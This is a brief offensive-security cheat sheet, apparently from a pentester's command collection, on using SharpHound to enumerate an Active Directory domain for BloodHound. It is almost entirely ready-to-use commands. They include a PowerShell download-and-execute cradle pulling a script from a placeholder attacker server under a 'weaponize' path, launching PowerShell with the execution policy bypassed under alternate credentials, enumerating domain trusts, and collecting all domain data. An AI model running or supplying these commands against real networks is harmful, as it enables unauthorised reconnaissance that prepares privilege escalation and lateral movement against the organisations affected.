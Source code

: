 # sharphound

% sharphound, Active directory enumeration, https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
#plateform/windows #target/remote #port/389 #port/631 #cat/AD/RECON

## download and  collect data
#tag/powershell 
https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1
http://<local_ip>/windows/windows_weaponize/ps/SharpHound.ps1
```powershell
(new-object system.net.webclient).downloadstring('http://<server>/SharpHound.ps1') | Invoke-BloodHound -CollectionMethod All  -domain <domain>
```

## collect data
#tag/powershell 
runas /netonly /user:admin\guest "powershell.exe -exec bypass"
nltest.exe /DOMAIN_TRUSTS
```powershell
import-module sharphound.ps1; invoke-bloodhound -collectionmethod <method|DCOnly> -domain <domain>
```
